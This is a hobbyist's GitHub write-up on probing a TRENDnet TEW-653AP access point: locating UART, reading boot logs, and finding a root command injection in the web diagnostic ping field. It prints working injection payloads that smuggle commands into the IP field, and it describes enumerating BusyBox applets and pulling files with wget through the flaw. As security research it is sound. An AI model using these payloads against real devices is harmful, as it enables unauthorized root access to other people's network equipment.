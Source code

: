 # Trendnet
Notes for TrendNet AP


# Locating UART
I found an area on the board that looked like UART, with a multimeter I found what I think is ground, Send and Recieve:
<img src="https://github.com/maguireja/Trendnet/blob/main/IMG_3994.png?raw=true">

# Testing UART
I hooked up my flipper zero and connect like normal, after playing around with different baud rates it seems like to 57600.
```
U-boot Ver:1.0.1.30 2009/10/12


Board: Ralink APSoC DRAM:  32 MB  1*32 MB
============================================ 
ASIC 3052_MP2 (Port5<->None)
Product Name: EAP9550
SDRAM CAS = 3(d1835272) 
============================================ 

Please choose the operation: 
   1: Load system code to SDRAM via TFTP. 

LINUX started...
init started: BusyBox v1.7.5 (2011-06-30 16:53:57 CST)
starting pid 131, tty '/dev/console': '/sbin/config_init'
Config Init version: 1.2.2.98 date: 2011/06/30
starting pid 174, tty '/dev/ttyS1': '/sbin/config_term'
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> cat: can't open '/apps/lib/modules/2.6.21/modulesApp.dep': No such file or directory
ln: /sbin/./apps_init: File exists
sh: cannot create /proc/senao/ip_conntrack_interface: nonexistent directory

```

It seemed like the UART shell was limited. Even though I was looking at a prompt, it didn't respond to common commands:
```
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> help
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> ls
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> ?
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> whoami
************************************************************************
*                                TEW-653AP                             *
************************************************************************
```
I did find an old DD-WRT forum post in which a user suggests you can enter 1,2,4 or 9 at the prompt (2,4 and 9 are hidden options). I tried these options but did not notice any changes:
https://forum.dd-wrt.com/phpBB2/viewtopic.php?t=89254&postdays=0&postorder=asc&start=15

# Command Injection
I noticed on the Tools > Diagnostic menu there was a ping utility, provide an IP address and the AP will attempt to ping the target. This looked like a command injection to me, I played around with it for a bit and was unable to get it to work.

I did notice if I provided a payload such as:
```
192.168.10.10'|id|'
```
Then the AP would continue to ping the target IP, regardless of how many counts were provided. I observed the continous ping in wireshark. This led me to believe there is something interesting happening here.

# UART Logs
While connected to the UART, I continued to test the ping functionality. While providing the following payload:
```
192.168.10.101"$(id)"
```
I noticed the following in the UART console:
```
ping bad address uid=0
```

This confirmed there is in fact a command injection, I can see in the UART console log that the _id_ command did execute. it appears the output from the _id_ command was fed into the ping command.

# Trying for a shell
After confirming the command injection, I wanted to get a shell on the device. I tried many different payloads, but nothing was working and the limited output of the UART console was making it hard to tell what exactly was failing. I thought it would be helpful to know what applets were on this busybox, and if netcat was present at all. So I made a wordlist of all busybox applets from here: https://busybox.net/downloads/BusyBox.html I then used BurpSuite's Intruder to send each applet inside my command injection payload, and logged the UART shell output. I found the following applets installed:
```
cat binaries.txt       
ping: bad address 'sbin/arp'
ping: bad address 'sbin/brctl'
ping: bad address 'sbin/dumpleases'
ping: bad address 'sbin/httpd'
ping: bad address 'sbin/ifconfig'
ping: bad address 'sbin/ifdown'
ping: bad address 'sbin/ifup'
ping: bad address 'sbin/init'
ping: bad address 'sbin/insmod'
ping: bad address 'sbin/lsmod'
ping: bad address 'sbin/modprobe'
ping: bad address 'sbin/reset'
ping: bad address 'sbin/rmmod'
ping: bad address 'sbin/route'
ping: bad address 'sbin/sysctl'
ping: bad address 'sbin/syslogd'
ping: bad address 'sbin/udhcpc'
ping: bad address 'sbin/udhcpd'
ping: bad address 'sbin/vconfig'
ping: bad address 'sbin/wget'
ping: bad address 'bin/ash'
ping: bad address 'bin/ash'
ping: bad address 'bin/cat'
ping: bad address 'bin/chmod'
ping: bad address 'bin/cp'
ping: bad address 'bin/date'
ping: bad address 'bin/df'
ping: bad address 'bin/dmesg'
ping: bad address 'bin/echo'
ping: bad address 'bin/grep'
ping: bad address 'bin/ip'
ping: bad address 'bin/kill'
ping: bad address 'bin/ln'
ping: bad address 'bin/ls'
ping: bad address 'bin/mkdir'
ping: bad address 'bin/mknod'
ping: bad address 'bin/mv'
ping: bad address 'bin/netstat'
ping: bad address 'bin/nice'
ping: bad address 'bin/pidof'
ping: bad address 'bin/ping'
ping: bad address 'bin/ps'
ping: bad address 'bin/pwd'
ping: bad address 'bin/rm'
ping: bad address 'bin/sh'
ping: bad address 'bin/sleep'
ping: bad address 'bin/stty'
ping: bad address 'bin/sync'
ping: bad address 'bin/touch'
ping: bad address 'bin/true'
ping: bad address 'bin/umount'
ping: bad address 'bin/uname'
```
It doesn't look like theres much to work with, and nc missing so any netcat shells won't work.

# Bring my own binary?
I noticed wget is present, and I confirmed it worked by using the command injection to download a txt file from my laptop. So I thought maybe I can just compile a version of netcat for the AP, then use wget to retrieve it.  While looking at the board I noticed there was a piece of metal (a heatsink?) on top of the processor:
pic here

So I thought, I'll just pop that off so I can see specifically what the processor is. I did that and found it was a RaLink (which should have been obvious because I saw Ralink the UART prompt previously):

# Bummer
With the specific model number for the processor I did some research. It's a MIPS processor, and so any binary I compile would need to be MIPS. This led me down a rabbit hole researching cross compiling, and trying to find shells or mips backdoors other people have created. I did find an interesting one here that was created for a trendnet switch: https://osandamalith.com/2015/10/11/how-to-turn-your-switch-into-a-snitch/

I was excited to try this out, I started by compiling a simple hello world binary. I got everything ready and then..... 

The AP no longer powers up. Previously on boot, LEDs would flash, I don't see those anymore. I don't see it broadcasting it's default SSID, and I get nothing on the UART port. When I test with my multimeter, I don't see any voltage coming from the TX pin on the UART.

Womp Womp

I don't know what I did wrong, I didn't think removing the heatsink would break the AP, but I guess it did. That's all for now, maybe I can find another AP in the future.

